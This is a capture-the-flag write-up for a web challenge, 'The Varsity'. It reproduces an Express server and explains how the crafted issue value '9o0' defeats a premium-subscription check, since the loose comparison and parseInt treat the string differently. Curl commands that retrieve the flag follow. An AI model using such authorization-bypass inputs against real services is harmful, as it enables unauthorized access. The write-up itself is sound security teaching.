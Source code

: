 # The Varsity [181 Solves]

## Description

> Come read our newspaper! Be sure to subscribe if you want access to the entire catalogue, including the latest issue.
> 
> Author: SteakEnthusiast
>
> `uoftctf-the-varsity.chals.io`
>
> Attachments: the_varsity.zip

## Source Code

```console
$ unzip -t the_varsity.zip
Archive:  the_varsity.zip
    testing: static/                  OK
    testing: static/css/              OK
    testing: static/css/index.css     OK
    testing: static/css/register.css   OK
    testing: static/js/               OK
    testing: static/js/index.js       OK
    testing: static/js/register.js    OK
    testing: views/                   OK
    testing: views/register.ejs       OK
    testing: views/user.ejs           OK
    testing: Dockerfile               OK
    testing: package.json             OK
    testing: server.js                OK
No errors detected in compressed data of the_varsity.zip.
```

<details><summary>server.js</summary>

```js
import express from "express";
import jwt from "jsonwebtoken";
import cookieParser from "cookie-parser";
import crypto from "crypto";
const FLAG = process.env.FLAG || "uoftctf{this_is_a_fake_flag}";
const app = express();
app.use(express.json());
app.use(cookieParser());
app.use(express.static("static"));
app.set("view engine", "ejs");

const JWT_SECRET = crypto.randomBytes(64).toString("hex");

const articles = [
  {
    "title": "Pioneering the Future: UofT's Revolutionary AI Research",
    "content": "The University of Toronto continues to lead groundbreaking research in artificial intelligence, with its latest project aiming to develop algorithms that can understand emotions in text. Spearheaded by a team of international students, this initiative promises to revolutionize how machines interact with human language."
  },
  {
    "title": "Engineering Triumph: UofT Students Build Record-Breaking Solar Car",
    "content": "A team of engineering students from the University of Toronto has broken international records with their latest solar-powered vehicle design. The car, named 'Solaris', is a testament to sustainable engineering and has won multiple awards in global competitions."
  },
  {
    "title": "UofT's Theatre Group Takes Centre Stage with Revolutionary Performance",
    "content": "The University of Toronto's theatre society has taken the art world by storm with its latest production, an innovative interpretation of Shakespeare's Hamlet. With a diverse cast and a unique, modern twist, the performance has garnered critical acclaim and a sold-out season."
  },
  {
    "title": "Medical Breakthrough: UofT Students Contribute to Cancer Research",
    "content": "In a significant stride towards fighting cancer, a group of biomedical students from the University of Toronto has contributed to major research findings. Their work focuses on a novel treatment approach that promises to reduce side effects and improve patient outcomes."
  },
  {
    "title": "Green Revolution: UofT's Commitment to Sustainability",
    "content": "The University of Toronto has launched a new initiative to make its campuses more sustainable. From reducing waste to promoting green technology, the university is dedicated to creating a better environment for students and the surrounding community."
  },
  {
    "title": "Cultural Mosaic: UofT's International Festival Highlights Global Unity",
    "content": "Celebrating diversity and unity, the University of Toronto's annual International Festival has once again brought together students from over 150 countries. The event featured cultural performances, food stalls, and interactive workshops, highlighting the rich cultural tapestry of the university's community."
  },
  {
    "title": "Tech Titans: UofT's Startup Accelerator Nurtures Next Generation Innovators",
    "content": "The University of Toronto's startup accelerator has become a hub for budding entrepreneurs. Offering mentorship, funding, and resources, the program has helped launch some of the most innovative tech companies in the country."
  },
  {
    "title": "Historic Discovery: UofT Archaeologists Unearth Ancient Artifacts",
    "content": "A team of archaeologists from the University of Toronto has made a historic discovery, unearthing ancient artifacts believed to be over 5,000 years old. This finding provides new insights into early human civilizations and has attracted international attention."
  },
  {
    "title": "Fitness First: UofT's New Wellness Program Promotes Student Health",
    "content": "With a focus on student well-being, the University of Toronto has introduced a comprehensive wellness program. Offering fitness classes, mental health resources, and nutritional guidance, the initiative aims to support the holistic health of all students."
  },
  {
    title: "UofT Hosts its 2nd Inaugural Capture the Flag Event",
    content: "Your flag is: " + FLAG,
  },
];

app.get("/", (req, res) => {
  const token = req.cookies.token;

  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);
      res.render("user", {
        username: decoded.username,
        subscription: decoded.subscription,
        articles: articles,
      });
    } catch (error) {
      res.clearCookie("token");
      res.redirect("/register");
    }
  } else {
    res.redirect("/register");
  }
});

app.get("/register", (req, res) => {
  res.render("register");
});

app.post("/register", (req, res) => {
  const { username, voucher } = req.body;

  if (
    typeof username === "string" &&
    (!voucher || typeof voucher === "string")
  ) {
    const subscription = voucher === FLAG + JWT_SECRET ? "premium" : "guest";
    if (voucher && subscription === "guest") {
      return res.status(400).json({ message: "Invalid voucher" });
    }
    const userToken = jwt.sign({ username, subscription }, JWT_SECRET, {
      expiresIn: "1d",
    });
    res.cookie("token", userToken, { httpOnly: true });
    return res.json({ message: "Registration successful", subscription });
  }

  return res.status(400).json({ message: "Invalid username or voucher" });
});

app.post("/article", (req, res) => {
  const token = req.cookies.token;

  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);

      let issue = req.body.issue;

      if (req.body.issue < 0) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
    } catch (error) {
      res.clearCookie("token");
      return res.status(403).json({ message: "Not Authenticated" });
    }
  } else {
    return res.status(403).json({ message: "Not Authenticated" });
  }
});

app.listen(3000, () => {
  console.log("Server running on port 3000");
});
```

</details>

## Solution

### Initial Analysis

```js
const articles = [
  // (snip)
  {
    title: "UofT Hosts its 2nd Inaugural Capture the Flag Event",
    content: "Your flag is: " + FLAG,
  },
```

The flag is in the 10th element of the `articles` array (In 0-index, it's 9th element).

```js
app.post("/article", (req, res) => {
  const token = req.cookies.token;

  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);

      let issue = req.body.issue;

      if (req.body.issue < 0) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
    } catch (error) {
      res.clearCookie("token");
      return res.status(403).json({ message: "Not Authenticated" });
    }
  } else {
    return res.status(403).json({ message: "Not Authenticated" });
  }
});
```

Since req.body.issue is not validated, we can send something other than a number.

If we can retrieve `articles[9]`, we can get the flag.
However, if the issue is 9 or greater, it will output `Please subscribe to access this issue.`
Since it retrieves articles[issue] after `parseInt`, so if we can send a request body that results in issue being 9 after `parseInt`, we can get the flag .

Octal numbers syntax (e.g. `0o1234`) is useful.

Tested `9o0` (not `0o9`) in Node.js console:

```js
> "9o0" >= 9  // Bypass `Please subscribe to access this issue`
false
> parseInt("9o0")
9
> Number.isNaN(parseInt("9o0"))  // Bypass `Invalid issue number`
false
```

### Exploit

```bash
curl -c cookies.txt -b cookies.txt https://uoftctf-the-varsity.chals.io/register -H "Content-Type: application/json" -d '{"username":"a","voucher":""}'
curl -c cookies.txt -b cookies.txt https://uoftctf-the-varsity.chals.io/article -H "Content-Type: application/json" -d '{"issue":"9o0"}'
```

Response:

```text
{"title":"UofT Hosts its 2nd Inaugural Capture the Flag Event","content":"Your flag is: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}"} 
```

## Flag

uoftctf{w31rd_b3h4v10r_0f_parseInt()!}

## References

- [parseInt() - JavaScript \| MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)
- [Numbers and dates - JavaScript \| MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Numbers_and_dates)
- [Node.js \| Report #1141623 - Unexpected input validation of octal literals in nodejs v15.12.0 and below returns defined values for all undefined octal literals. \| HackerOne](https://hackerone.com/reports/1141623)
